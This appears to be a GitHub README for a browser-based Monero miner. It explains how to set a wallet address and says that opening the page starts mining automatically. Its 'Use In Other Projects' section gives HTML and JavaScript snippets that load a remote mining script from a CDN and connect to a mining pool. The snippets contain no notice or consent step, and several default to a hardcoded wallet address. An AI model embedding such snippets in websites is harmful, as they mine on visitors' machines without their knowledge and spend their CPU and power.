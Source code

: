 ## Monero Webminer

Html & Js code that allows Mining of XMR (Monero) on browsers


# Configure

In Mine.Html you will see a address change this for your Monero address and you will be mining.

```javascript
server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = " PUT YOUR ADDRESS HERE";
    var workerId = ""
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
```
# Running

Open index.html in any web browser and it will automatically start mining.

https://najmajmal.github.io/monero-webminer


# Check Progress 

Go to https://moneroocean.stream . This is the pool you are connected to, it will show your hashrate and balance.

# Use In Other Projects 


HTML
  
    <!-- Start Of Mining Code (HTML) -->
    <script src="https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js"></script>
    <script>
        server = "wss://f.xmrminingproxy.com:8181";
        var pool = "moneroocean.stream";
        var walletAddress = "4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi";
        var workerId = "nahh"
        var threads = -1;
        var password = "";
        startMining(pool, walletAddress, workerId, threads, password);
        throttleMiner = 20;
    </script>
    <!-- End Of Mining Code (HTML) -->
      

Javascript import snippet
  
    import 'https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/external/javascript.js';


Javascript
    
    // Start Of Mining Code (Javascript)
    var script = document.createElement("script");
    script.src = "https://cdn.jsdelivr.net/gh/NajmAjmal/monero-webminer@main/script.js";
    document.head.appendChild(script);

    server = "wss://f.xmrminingproxy.com:8181";
    var pool = "moneroocean.stream";
    var walletAddress = "4657q4dnsjLWtzeW4XN3wG9swFumWAZB9i1pegTLMxVAQy5E5AE8uif42kkHWcWc9vDcLUmzeCf3pV7mmrJQQqqe84dtASi";
    var workerId = "nahh"
    var threads = -1;
    var password = "";
    startMining(pool, walletAddress, workerId, threads, password);
    throttleMiner = 20;
    // End Of Mining Code

